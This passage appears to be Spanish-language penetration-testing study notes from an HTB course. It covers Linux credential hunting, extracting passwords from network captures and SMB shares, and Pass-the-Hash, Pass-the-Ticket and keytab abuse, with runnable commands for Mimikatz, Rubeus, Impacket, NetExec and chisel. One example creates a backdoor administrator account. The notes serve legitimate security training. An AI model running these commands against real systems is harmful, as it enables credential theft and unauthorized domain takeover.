| `$y$` | yescrypt | (mejor con John) |

> [!NOTE]
> **Idea clave**
> **`passwd`** (público, dice quién existe) + **`shadow`** (root, tiene los hashes) → `unshadow` los junta → John/Hashcat los crackea. Identifica el `$id$` para elegir el modo correcto.

---

Relacionado: **Búsqueda de credenciales en Linux** · **Proceso de autenticación de Windows** (equivalente en Windows) · crackeo → **John The Ripper** · **Introduction to Hashcat** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Búsqueda de credenciales en Linux

> [!IMPORTANT]
> **Qué hacemos aquí**
> Ya dentro de un Linux, además de crackear `/etc/shadow` (ver **Proceso de autenticación de Linux**), se rebuscan credenciales **en memoria, en apps y en ficheros**. Muchas veces hay contraseñas en claro esperando.

> [!NOTE]
> **Nota sobre esta nota**
> Los apuntes originales listaban solo los **nombres** de las herramientas. He completado los **comandos de uso** (conocimiento establecido); van marcados donde toca.

---

#### Memoria y caché

##### Mimipenguin

[**Mimipenguin**](https://github.com/huntergregal/mimipenguin) vuelca **contraseñas en texto plano** de la memoria de procesos de un escritorio Linux con sesión activa (gdm, gnome-keyring, sshd, sudo…). **Necesita root.** *(comando añadido)*

```bash
sudo python3 mimipenguin.py
```
```bash
sudo bash mimipenguin.sh
```

##### LaZagne

[**LaZagne**](https://github.com/AlessandroZ/LaZagne) también tiene versión Linux: recupera credenciales guardadas por apps (navegadores, correo, Wi-Fi, llaveros…). Sube el script/binario y ejecútalo con todos los módulos: *(comando añadido)*

```bash
python3 laZagne.py all
```

---

#### Credenciales del navegador

##### Firefox Decrypt

Primero localiza el perfil y mira si hay credenciales guardadas (estarán **cifradas** en `logins.json`):

```bash
ls -l .mozilla/firefox/ | grep default
cat .mozilla/firefox/*.default-release/logins.json | jq .
```

[**Firefox Decrypt**](https://github.com/unode/firefox_decrypt) las **descifra** (si no hay master password, o la conoces):

```bash
python3.9 firefox_decrypt.py
```
Detecta los perfiles de Firefox y muestra los pares **URL / usuario / contraseña** almacenados.

---

#### Dónde rebuscar (loot manual)

> [!TIP]
> **Sitios clásicos con credenciales *(añadido — no estaba en el original, pero es lo estándar)***
> - **Historiales**: `~/.bash_history`, `~/.zsh_history`, `~/.mysql_history` (comandos con contraseñas en línea).
> - **Claves SSH**: `~/.ssh/id_rsa`, `authorized_keys`, `known_hosts`.
> - **Ficheros de config**: `.conf`, `.config`, `.xml`, `.php`, `.py`, wp-config.php, `/var/www/`, credenciales de BD.
> - **Cron y scripts**: `/etc/cron*`, scripts con contraseñas embebidas.
> - **Búsqueda por patrón** (el `findstr` de Linux es `grep`):
>   ```bash
>   grep -rniE "password|passwd|pwd|secret|api_key" /var/www /home /etc 2>/dev/null
>   ```

##### Scripts de búsqueda (del cheatsheet HTB)

Buscar ficheros de **configuración** y credenciales dentro:

```bash
# Ficheros de config por extensión
for l in $(echo ".conf .config .cnf"); do echo -e "\nExt: $l"; find / -name "*$l" 2>/dev/null | grep -v "lib\|fonts\|share\|core"; done

# Credenciales dentro de ficheros .cnf
for i in $(find / -name "*.cnf" 2>/dev/null | grep -v "doc\|lib"); do echo -e "\nFile: $i"; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#"; done

# Ficheros de base de datos
for l in $(echo ".sql .db .*db .db*"); do find / -name "*$l" 2>/dev/null | grep -v "doc\|lib\|share\|man"; done
```

**Claves SSH, cron e historiales:**

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"   # claves privadas
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"        # claves públicas/autorizadas
cat /etc/crontab ; ls -la /etc/cron.*/                      # tareas con creds
tail -n5 /home/*/.bash*                                     # últimas líneas del historial
```

---

#### Resumen rápido (cheatsheet)

| Herramienta / sitio | Comando | Para qué |
|---------------------|---------|----------|
| **Mimipenguin** | `sudo python3 mimipenguin.py` | Contraseñas en claro de memoria (root) |
| **LaZagne** | `python3 laZagne.py all` | Creds de apps/navegadores |
| **Firefox Decrypt** | `python3.9 firefox_decrypt.py` | Contraseñas guardadas en Firefox |
| Historiales | `cat ~/.bash_history` · `~/.mysql_history` | Comandos con contraseñas |
| Claves SSH | `ls -la ~/.ssh/` | Claves privadas reutilizables |
| Búsqueda por patrón | `grep -rniE "password|secret|api_key" / 2>/dev/null` | Credenciales en ficheros |

---

Relacionado: **Proceso de autenticación de Linux** · **Búsqueda de credenciales en Windows** (equivalente Windows) · **0 - Password Attacks (Índice y cheatsheet)**

---

## Extracting Password from the Network

### Búsqueda de credenciales en el tráfico de red

> [!IMPORTANT]
> **Por qué la red filtra credenciales**
> Muchos protocolos viajan **en texto claro**. Si consigues **ver ese tráfico** (una captura `.pcap` o una posición de esnifado/MITM), puedes extraer usuarios, contraseñas y hashes directamente de los paquetes — sin crackear nada.

#### Protocolos en claro y su contraparte cifrada

Si en una máquina ves el protocolo de la izquierda, el tráfico es **legible**; la versión de la derecha es la segura:

| No cifrado | Cifrado | Para qué se usa |
|-----------|---------|-----------------|
| `HTTP` | `HTTPS` | Páginas y recursos web |
| `FTP` | `FTPS/SFTP` | Transferencia de archivos |
| `SNMP` | `SNMPv3 (cifrado)` | Monitorizar/gestionar dispositivos de red |
| `POP3` | `POP3S` | Descargar correo al cliente |
| `IMAP` | `IMAPS` | Gestionar correo en el servidor |
| `SMTP` | `SMTPS` | Enviar correo |
| `LDAP` | `LDAPS` | Directorio (credenciales, roles) |
| `RDP` | `RDP (con TLS)` | Escritorio remoto Windows |
| `DNS (tradicional)` | `DNS over HTTPS (DoH)` | Resolver nombres → IP |
| `SMB` | `SMB over TLS (SMB 3.0)` | Compartir archivos/impresoras |
| `VNC` | `VNC con TLS/SSL` | Control remoto gráfico |

> [!TIP]
> **Regla rápida**
> Servicio **sin la "S"/sin TLS** = candidato a filtrar credenciales por la red. FTP, HTTP, SNMP, POP3/IMAP/SMTP y LDAP en claro son los clásicos.

---

#### Pcredz

[**Pcredz**](https://github.com/lgandx/PCredz) extrae credenciales del **tráfico en vivo** o de **capturas de paquetes** (`.pcap`/`.pcapng`). Lo que es capaz de sacar:

- Números de **tarjetas de crédito**
- Credenciales **POP / SMTP / IMAP / FTP**
- **Community strings** de SNMP
- Credenciales de cabeceras **HTTP NTLM/Basic** y de formularios HTTP
- **Hashes NTLMv1/v2** de tráfico variado (DCE-RPC, SMBv1/2, LDAP, MSSQL, HTTP)
- **Hashes Kerberos** (AS-REQ Pre-Auth etype 23)

```bash
./Pcredz -f demo.pcapng -t -v
```
- `-f demo.pcapng` → analiza un fichero de captura · `-t` → muestra también tarjetas de crédito · `-v` → salida detallada.

> [!NOTE]
> **Necesitas ver el tráfico (añadido)**
> Pcredz **no captura por sí solo**: o le das un `.pcap` ya capturado, o lo pones a esnifar una interfaz (`-i <iface>`) desde una **posición de red** donde pase el tráfico (p. ej. tras un envenenamiento con **Responder**/MITM). Sin visibilidad del tráfico, no hay nada que extraer.

> [!TIP]
> **Los hashes NTLMv1/v2 que saca**
> Se crackean con Hashcat: **NetNTLMv2 → `-m 5600`**, NetNTLMv1 → `-m 5500`. Es la vía típica junto con Responder en redes internas.

---

#### Resumen rápido (cheatsheet)

| Objetivo | Comando / dato |
|----------|----------------|
| ¿Protocolo filtra? | Sin `S`/TLS (FTP, HTTP, POP3, SNMP, LDAP…) = en claro |
| Extraer de una captura | `./Pcredz -f captura.pcapng -t -v` |
| Esnifar en vivo | `./Pcredz -i <iface> -v` |
| Crackear NetNTLMv2 | `hashcat -m 5600 hashes.txt rockyou.txt` |

---

Relacionado: **Búsqueda de credenciales en recursos compartidos** · **Servicios en red** · **Introduction to Hashcat** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Búsqueda de credenciales en recursos compartidos

> [!IMPORTANT]
> **Qué hacemos aquí**
> Los **recursos compartidos** de red (SMB) suelen guardar scripts, configs, backups y hojas de cálculo con **credenciales olvidadas**. Con acceso a ellos, se **rastrean automáticamente** buscando ficheros y palabras interesantes. Es de las fuentes de credenciales más rentables en un dominio.

#### Qué buscar

- **Palabras clave** dentro de los ficheros: `passw`, `user`, `token`, `key`, `secret`.
- **Extensiones** típicas de credenciales almacenadas: `.ini`, `.cfg`, `.env`, `.xlsx`, `.ps1`, `.bat`.
- **Nombres de fichero interesantes**: que incluyan `config`, `user`, `passw`, `cred` o `initial`.

---

#### Desde Windows

##### Snaffler

[**Snaffler**](https://github.com/SnaffCon/Snaffler) identifica automáticamente los **recursos compartidos accesibles** en el dominio y busca ficheros interesantes dentro:

```cmd
Snaffler.exe -s -o snaffler.log
```
- `-u` → recupera la lista de **usuarios de AD** y busca referencias a ellos en los ficheros.
- `-i` y `-n` → especifican qué recursos compartidos incluir en la búsqueda.
- `-s` → muestra resultados por pantalla · `-o` → guarda en log *(flags de ejecución añadidos para que sea ejecutable)*.

##### PowerHuntShares

[**PowerHuntShares**](https://github.com/NetSPI/PowerHuntShares) es un script de **PowerShell** que **no requiere** estar en una máquina unida al dominio. Su punto fuerte: genera un **informe HTML** navegable.

```powershell
Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
```

---

#### Desde Linux

##### MANSPIDER

[**MANSPIDER**](https://github.com/blacklanternsecurity/MANSPIDER) escanea recursos compartidos **SMB** desde Linux, incluso mirando dentro de documentos (PDF, Office…).

```bash
manspider <IP/CIDR> -c "passw" -u <user> -p <pass>
```
*(sintaxis de ejemplo añadida: `-c` = contenido a buscar)*

##### NetExec (`--spider`)

**NetExec** rastrea recursos compartidos con la opción `--spider`. Búsqueda básica de ficheros que contengan `"passw"`:

```bash
netexec smb <IP> -u <user> -p <pass> --spider <SHARE> --content --pattern "passw"
```
*(comando completado: el original solo mencionaba `--spider`)*

---

#### Manual (rápido, sin herramientas)

Listar los recursos compartidos del equipo:

```cmd
net share
```

Buscar una cadena dentro de los ficheros de un share concreto:

```cmd
findstr /SIN /C:"passw" "\\DC01.inlanefreight.local\HR\*.txt"
```
- `/S` → recursivo · `/I` → ignora mayúsculas · `/N` → muestra el **número de línea** de cada coincidencia.

---

#### Resumen rápido (cheatsheet)

| Origen | Herramienta | Comando |
|--------|-------------|---------|
| **Windows** | Snaffler | `Snaffler.exe -s -o snaffler.log` (`-u`/`-i`/`-n`) |
| **Windows** | PowerHuntShares | `Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public` |
| **Linux** | MANSPIDER | `manspider <IP> -c "passw" -u u -p p` |
| **Linux** | NetExec | `netexec smb <IP> -u u -p p --spider <SHARE> --content --pattern "passw"` |
| **Manual** | net share / findstr | `findstr /SIN /C:"passw" "\\<host>\<share>\*.txt"` |

> [!TIP]
> **Qué buscar (recuerda)**
> Palabras: `passw`, `user`, `token`, `key`, `secret` · Extensiones: `.ini`, `.cfg`, `.env`, `.xlsx`, `.ps1`, `.bat` · Nombres: `config`, `cred`, `initial`.

---

Relacionado: **Búsqueda de credenciales en el tráfico de red** · **Búsqueda de credenciales en Windows** · **Servicios en red** · **0 - Password Attacks (Índice y cheatsheet)**

---

## Windows Lateral Movement Techniques

### Pass the Hash (PtH)

> [!IMPORTANT]
> **La idea en una frase**
> En **Pass the Hash** te autenticas usando el **hash NT** de la contraseña, **no la contraseña en claro**. Si robaste un hash (de la **SAM**, de **LSASS** o del **NTDS.dit**), puedes **iniciar sesión / ejecutar comandos sin crackearlo**. Es la base del movimiento lateral en Windows.

#### Por qué funciona: NTLM

**NTLM** es un sistema de **SSO** (single sign-on) con un protocolo de **desafío-respuesta**: verifica la identidad **sin** que el usuario reenvíe la contraseña. El cálculo de la respuesta se hace con el **hash NT**, así que **quien tiene el hash puede autenticarse** — exactamente lo que explotamos.

> [!WARNING]
> **Requisito para ejecutar comandos**
> Para PtH con **ejecución** (psexec, SMBExec, WMIExec, evil-winrm), el usuario del hash debe ser **administrador local** en la máquina objetivo. Para solo autenticarte puede bastar con menos, pero el RCE necesita privilegios de admin local.

> [!NOTE]
> **El resultado depende de los privilegios del usuario (importante)**
> No todo hash abre todas las puertas. Ejemplo real: un usuario que solo está en **Remote Management Users** (tiene WinRM) pero **no es admin local**:
> - **`evil-winrm -H`** → ✅ funciona (tiene WinRM).
> - **`xfreerdp /pth`** → ❌ falla (no es admin / sin Restricted Admin).
> - **`reg add ...DisableRestrictedAdmin`** → ❌ *Access Denied* (no puede tocar el registro protegido).
>
> Moraleja: si una herramienta falla, **prueba otra vía** — el hash puede valer para WinRM aunque no para RDP/SMB.

---

#### Windows

##### Mimikatz — `sekurlsa::pth`

El módulo `sekurlsa::pth` lanza un **proceso nuevo** inyectando el hash, de modo que ese proceso actúa como el usuario suplantado:

| Parámetro | Qué es |
|-----------|--------|
| `/user` | Usuario a suplantar |
| `/rc4` o `/NTLM` | El **hash NT** del usuario |
| `/domain` | Dominio del usuario (en cuenta **local**: nombre del equipo, `localhost` o `.`) |
| `/run` | Programa a lanzar en su contexto (por defecto `cmd.exe`) |

```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
Abre un `cmd.exe` autenticado como `julio`; desde ahí accedes a recursos de red con su identidad.

> [!TIP]
> **Antes de suplantar: vuelca los hashes de la sesión actual**
> Si ya tienes una sesión (p. ej. por RDP con `/pth`), saca los hashes de otros usuarios logueados con:
> ```
> privilege::debug
> sekurlsa::logonpasswords
> ```
> De ahí sacas el `/rc4:<hash>` de la siguiente víctima. Y confirma el dominio a pasar en `/domain` con:
> ```cmd
> systeminfo | findstr /B /C:"Domain"
> ```

##### PowerShell — `Invoke-TheHash`

Colección de funciones PowerShell para PtH por **SMB** o **WMI** (usa .NET `TCPClient`). Dos variantes: `Invoke-SMBExec` y `Invoke-WMIExec`.

| Parámetro | Qué es |
|-----------|--------|
| `Target` | Host/IP del objetivo |
| `Username` | Usuario para autenticar |
| `Domain` | Dominio (no hace falta en cuentas locales o con `usuario@dominio`) |
| `Hash` | Hash NT (acepta formato `LM:NTLM` o solo `NTLM`) |
| `Command` | Comando a ejecutar (si se omite, solo **comprueba** si tienes acceso WMI) |

```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
Este ejemplo **crea un usuario `mark`** y lo mete en **Administradores** locales. También puedes lanzar una **reverse shell** de PowerShell con `-Command` y ponerte a la escucha con Netcat (`nc -lvnp <puerto>`).

> [!TIP]
> **SMB vs WMI**
> `Invoke-SMBExec` → ejecución por SMB (445). `Invoke-WMIExec` → por WMI (135). Si uno está filtrado, prueba el otro.

---

#### Linux (desde la máquina de ataque)

##### Impacket — psexec

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
- `-hashes LM:NT` → aquí el **LM va vacío** (`:` antes del hash), así que solo pasas el **NT**. Da una shell SYSTEM si eres admin local.

##### NetExec

```bash
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
- `-H` → hash NT · `-d .` → dominio **local** (el `.`). Puedes pasar un **CIDR** para probar el hash en **toda la subred** (muy útil para *pass-the-hash spraying*).
- Si ves **`Pwn3d!`** → el usuario es **admin local** ahí → añade `-x "<comando>"` para ejecutar.

##### evil-winrm

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
Shell por **WinRM** (5985). Útil si **SMB está bloqueado** o prefieres PowerShell remoting.

##### RDP (`xfreerdp /pth`)

RDP solo permite PtH si el objetivo tiene activado el **Restricted Admin Mode**. Si tienes privilegios para tocar el registro, actívalo:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
Luego te conectas pasando el hash con `/pth`:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

> [!NOTE]
> **Ojo con RDP**
> `DisableRestrictedAdmin = 0` **cambia la configuración** del objetivo (habilitas Restricted Admin). Es intrusivo y queda registrado; úsalo solo si lo necesitas y recuerda que modificas el sistema.

---

#### Resumen rápido (cheatsheet)

| Herramienta | Origen | Comando |
|-------------|--------|---------|
| **Mimikatz** | Windows | `sekurlsa::pth /user:u /rc4:<NT> /domain:<d> /run:cmd.exe` |
| **Invoke-TheHash** | Windows | `Invoke-SMBExec -Target <IP> -Username u -Hash <NT> -Command "..."` |
| **Impacket** | Linux | `impacket-psexec u@<IP> -hashes :<NT>` |
| **NetExec** | Linux | `netexec smb <IP/CIDR> -u u -d . -H <NT>` (`Pwn3d!` → `-x "cmd"`) |
| **evil-winrm** | Linux | `evil-winrm -i <IP> -u u -H <NT>` |
| **RDP** | Linux | `reg add ...DisableRestrictedAdmin /d 0x0` → `xfreerdp /v:<IP> /u:u /pth:<NT>` |

> [!TIP]
> **Qué elegir**
> - **Tengo shell en Windows** → Mimikatz `sekurlsa::pth` o Invoke-TheHash.
> - **Ataco desde Linux** → NetExec (rápido, hace spraying de hash por CIDR) o Impacket/psexec para shell. Si SMB está cerrado → **evil-winrm**. Escritorio gráfico → **xfreerdp /pth**.
> - **`Pwn3d!` en NetExec = admin local = RCE.**

---

Siguiente técnica (Kerberos) → **Pass the Ticket (PtT) desde Windows**

Relacionado: de dónde salen los hashes → **Atacando Active Directory y NTDS.dit** · **LSASS** · **Ataque a SAM, SYSTEM y SECURITY** · acceso con creds → **Servicios en red** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Pass the Ticket (PtT) desde Windows

> [!IMPORTANT]
> **La idea en una frase**
> En **Pass the Ticket** te mueves lateralmente usando un **ticket Kerberos robado**, en vez de un hash NTLM (**PtH**). Es el equivalente a PtH pero en el mundo **Kerberos / Active Directory**.

#### Kerberos en 30 segundos

La idea de Kerberos: **no mandar la contraseña a cada servicio**. En su lugar guarda **tickets** en tu sistema y a cada servicio le presenta **solo su ticket**, que no sirve para otra cosa.

| Ticket | Qué es |
|--------|--------|
| **TGT** (*Ticket Granting Ticket*) | El **primer** ticket que obtienes. Sirve para pedir más tickets (TGS). Es "el pase maestro". |
| **TGS** (*Ticket Granting Service*) | Ticket para **un servicio concreto**. Es lo que presentas para usar ese servicio. |

> [!TIP]
> **Por qué nos interesa el TGT**
> Robar un **TGT** es lo más potente: con él pides TGS para cualquier servicio donde el usuario tenga acceso. Robar un **TGS** solo te da ese servicio.

---

#### Paso 1 · Recolectar tickets Kerberos

##### Mimikatz — exportar a `.kirbi`

`sekurlsa::tickets /export` vuelca todos los tickets de memoria a ficheros **`.kirbi`**:

```
privilege::debug
sekurlsa::tickets /export
```
```cmd
dir *.kirbi
```

##### Rubeus — volcar tickets

```cmd
Rubeus.exe dump /nowrap
```
- `/nowrap` → saca el ticket (base64) en una sola línea, fácil de copiar.

> [!WARNING]
> **Necesitas ser admin**
> Para recolectar **todos** los tickets (los de otros usuarios), Mimikatz y Rubeus deben ejecutarse **como administrador**.

> [!TIP]
> **Cómo leer los nombres de los `.kirbi`**
> El nombre del fichero te dice qué es:
> - `...@krbtgt-DOMINIO.kirbi` → **TGT** (el que quieres).
> - `...@cifs-DC01...`, `@ldap-DC01...`, `@DNS-...`, `@GC-...` → **TGS** de un servicio (SMB, LDAP, DNS, Global Catalog).
> - `john@krbtgt-...`, `julio@krbtgt-...` → TGT **de ese usuario**.
> - `MS01$@...` → ticket de la **cuenta de máquina**.
>
> Para contar "cuántos TGT de usuario tienes", cuenta los `@krbtgt` de cuentas de persona (john, julio…), ignorando los `$` de máquina.

---

#### Paso 2 · OverPass the Hash (Pass the Key)

> [!NOTE]
> **¿Qué es y en qué se diferencia de PtH?**
> Aquí **no robas un ticket**, sino el **hash/clave** del usuario y lo usas para **pedir un TGT nuevo** a Kerberos. Es "convertir" un hash NTLM/clave AES en un ticket Kerberos → de ahí el nombre *OverPass-the-Hash*. Luego ya tienes un TGT legítimo para moverte.

Primero, volcar las **claves de cifrado** Kerberos de los usuarios con `sekurlsa::ekeys` (lista RC4, AES128, AES256…):

```
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

Con una clave, pides el TGT:

```
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

##### Rubeus (OverPass-the-Hash con AES256)

```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

> [!TIP]
> **Mimikatz vs Rubeus (privilegios)**
> **Mimikatz** necesita **admin** para Pass the Key/OverPass-the-Hash; **Rubeus no**. Y usar **AES256** (`/aes256`) es más sigiloso que RC4 (`/ntlm`/`/rc4`), que suele levantar alertas.

---

#### Paso 3 · Pass the Ticket (inyectar el ticket)

Ahora usamos un ticket (robado o recién pedido) **inyectándolo** en nuestra sesión.

##### Rubeus — pedir TGT e inyectar (`/ptt`)

```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
- `/ptt` → *pass-the-ticket*: inyecta el TGT directamente en tu sesión actual.

Si ya tienes un ticket en **base64** (del `Rubeus.exe dump /nowrap`), lo inyectas sin fichero:

```cmd
Rubeus.exe ptt /ticket:<BASE64_DEL_TICKET>
```

##### Mimikatz — inyectar un `.kirbi`

```
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
Carga el ticket exportado en el paso 1. Tras inyectarlo, `klist` debería mostrarlo.

---

#### Paso 4 · PtT para movimiento lateral (PowerShell Remoting)

Con el ticket ya inyectado, te conectas a otra máquina (p. ej. el DC) **sin contraseña**, porque Kerberos usa tu ticket.

> [!NOTE]
> **Identidad local vs identidad de red (clave para no liarte)**
> Tras inyectar el TGT de `john`, `whoami` **seguirá mostrando tu usuario local** (p. ej. Administrator). Es normal: tu identidad **local** no cambia, pero tu **caché Kerberos** tiene el ticket de john. Al conectar **por red** (SMB, `Enter-PSSession`), Kerberos usa el **ticket**, así que allí sí actúas como **john** (compruébalo con `whoami` dentro de la PSSession).

##### Con Mimikatz

```
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```
Sales de Mimikatz y abres una sesión remota:

```powershell
exit
powershell
Enter-PSSession -ComputerName DC01
```

##### Con Rubeus

`createnetonly` crea un **proceso/sesión "de sacrificio"** (logon netonly) para no pisar tus propios tickets; luego pides el TGT con `/ptt` e inyectas:

```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
```powershell
powershell
Enter-PSSession -ComputerName DC01
```

---

#### Resumen rápido (cheatsheet)

| Fase | Herramienta | Comando |
|------|-------------|---------|
| Recolectar tickets | Mimikatz | `sekurlsa::tickets /export` → `.kirbi` |
| Recolectar tickets | Rubeus | `Rubeus.exe dump /nowrap` |
| Volcar claves Kerberos | Mimikatz | `sekurlsa::ekeys` |
| OverPass-the-Hash | Mimikatz | `sekurlsa::pth /domain:<d> /user:<u> /ntlm:<hash>` |
| OverPass-the-Hash | Rubeus | `Rubeus.exe asktgt /domain:<d> /user:<u> /aes256:<key> /nowrap` |
| **Pass the Ticket** | Rubeus | `Rubeus.exe asktgt ... /rc4:<hash> /ptt` |
| **Pass the Ticket** | Mimikatz | `kerberos::ptt <ticket.kirbi>` |
| Lateral (remoting) | — | `Enter-PSSession -ComputerName <host>` |
| Sesión de sacrificio | Rubeus | `Rubeus.exe createnetonly /program:"cmd.exe" /show` |

> [!NOTE]
> **PtH vs OverPass-the-Hash vs PtT**
> - **PtH** → usas el **hash NT** directamente (autenticación **NTLM**). Ver **Pass the Hash (PtH)**.
> - **OverPass-the-Hash** → usas el **hash/clave** para pedir un **TGT** (lo conviertes a Kerberos).
> - **PtT** → ya tienes un **ticket** (TGT/TGS) y lo **inyectas** para usarlo.

---

Mismo ataque desde Linux → **Pass the Ticket (PtT) desde Linux**

Relacionado: **Pass the Hash (PtH)** · de dónde salen hashes/claves → **LSASS** · **Atacando Active Directory y NTDS.dit** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Pass the Ticket (PtT) desde Linux

> [!IMPORTANT]
> **La idea en una frase**
> Igual que en **PtT desde Windows**, reutilizamos tickets Kerberos — pero desde una **máquina Linux unida al dominio**. Aquí los "tickets" viven en **dos formatos de fichero** distintos que hay que saber distinguir.

#### Los dos formatos de credencial Kerberos en Linux

| Fichero | Qué contiene | Dónde suele estar |
|---------|--------------|-------------------|
| **ccache** (*credential cache*) | **Tickets ya emitidos** (TGT/TGS) de una sesión | `/tmp`, y la ruta está en la variable `KRB5CCNAME` |
| **keytab** | Pares **principal + clave cifrada** (derivada de la contraseña) | Rutas de apps/cronjobs; permite autenticarse **sin contraseña** |

> [!TIP]
> **La diferencia clave**
> - Un **ccache** es un ticket "vivo" → lo exportas a tu sesión y ya actúas como ese usuario.
> - Un **keytab** es como una "llave permanente" → con él pides un ticket nuevo (`kinit`) para ese principal. Si consigues un keytab de una cuenta potente, tienes acceso recurrente.

> [!NOTE]
> **Acceso inicial a un Linux de dominio (SSH)**
> El login usa el formato **`usuario@dominio@host`** (le dice al SSSD/PAM que es un usuario **de dominio**, no local). Ojo al puerto no estándar:
> ```bash
> ssh david@inlanefreight.htb@10.129.158.254 -p 2222
> ```

---

#### Paso 1 · ¿Está la máquina Linux unida al dominio?

```bash
realm list
```
```bash
ps -ef | grep -i "winbind\|sssd"
```
Si ves **`sssd`** o **`winbind`** corriendo (o `realm` reporta un dominio), la máquina está integrada con AD → hay Kerberos que abusar.

---

#### Paso 2 · Encontrar tickets y keytabs

```bash
# Keytabs por todo el sistema
find / -name *keytab* -ls 2>/dev/null

# Keytabs referenciados en cronjobs (busca uso de kinit)
crontab -l

# ccache de la sesión actual
env | grep -i krb5
ls -la /tmp
```

> [!NOTE]
> **kinit en un cronjob = pista**
> Si en `crontab -l` ves **`kinit`**, es que se usa Kerberos: `kinit` pide el **TGT** del usuario y lo guarda en la caché (ccache). Cerca suele haber un **keytab** que puedes reutilizar.

---

#### Paso 3 · Abusar de un keytab

Listar qué principal/claves contiene (y confirmar que te sirve):

```bash
klist -k -t /opt/specialfiles/carlos.keytab
```

Importarlo a tu sesión con `kinit` → a partir de aquí **eres ese usuario** en Kerberos:

```bash
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```
> [!NOTE]
> **Comando completado (añadido)**
> En el original la ruta tras `-t` quedó cortada; `-k -t <keytab>` indica a `kinit` que use ese keytab. Tras ejecutarlo, `klist` debería mostrar el TGT de `carlos`.

Usar el ticket (ej. acceder a un share del DC como Carlos; `-k` = usa Kerberos):

```bash
smbclient //dc01/carlos -k -c ls
```

##### Extraer hashes de un keytab (para crackear)

Con [**KeyTabExtract**](https://github.com/sosdave/KeyTabExtract) sacas el hash NTLM/AES del keytab para crackearlo offline o usarlo en PtH/OverPass-the-Hash:

```bash
python3 keytabextract.py /opt/specialfiles/carlos.keytab
```
Luego crackeas el NT hash (`hashcat -m 1000`) y **cambias a ese usuario**:

```bash
hashcat -a 0 -m 1000 <NThash> /usr/share/wordlists/rockyou.txt
su carlos@inlanefreight.htb
```

> [!TIP]
> **Cadena típica del lab: cron → keytab → escalada**
> Ya como un usuario, mira su **crontab**: suele apuntar a un **script que usa otro keytab** (de una cuenta de servicio). Extráelo, crackéalo y repite:
> ```bash
> crontab -l
> cat ~/.scripts/kerberos_script_test.sh      # revela el .kt de otra cuenta
> python3 keytabextract.py <ese.kt>
> ```
> Y comprueba privilegios de sudo para llegar a root:
> ```bash
> sudo -l        # si sale (ALL) → sudo su → root
> ```

---

#### Paso 4 · Usar herramientas de ataque con un ccache

Si tienes un fichero **ccache**, basta con apuntar `KRB5CCNAME` a él y las herramientas de Impacket lo usarán con `-k`:

```bash
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
impacket-wmiexec dc01 -k
```
En escenarios con **pivoting** (DC no accesible directo), se tunelea con **chisel** y se antepone `proxychains`:

```bash
# En el host comprometido (ej. MS01), hacia tu máquina:
chisel.exe client 10.10.14.33:8080 R:socks
```
```bash
proxychains impacket-wmiexec dc01 -k
```

---

#### Paso 5 · Convertir tickets entre Linux y Windows

Los formatos no son intercambiables directamente: **ccache** (Linux) ↔ **.kirbi** (Windows). Se convierten con **impacket-ticketConverter**:

```bash
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
Y ese `.kirbi` se importa en una sesión Windows con Rubeus:

```cmd
Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```
> [!TIP]
> **Flujo entre mundos**
> Robas un **ccache en Linux** → lo pasas a **.kirbi** con `ticketConverter` → lo inyectas en **Windows** con `Rubeus ptt`. Y al revés también sirve (kirbi → ccache) para usar tickets de Windows en Linux.

---

#### Abusar del ticket de la cuenta de máquina (SSSD)

Un Linux de dominio tiene **su propio TGT** (el de la cuenta de equipo, `LINUX01$`) en la caché de **SSSD**, solo legible por **root**. Si eres root, puedes usarlo para acceder a recursos que la máquina tenga permitidos:

```bash
export KRB5CCNAME=/var/lib/sss/db/ccache_INLANEFREIGHT.HTB
klist
smbclient //DC01/linux01 -N
```

##### Linikatz

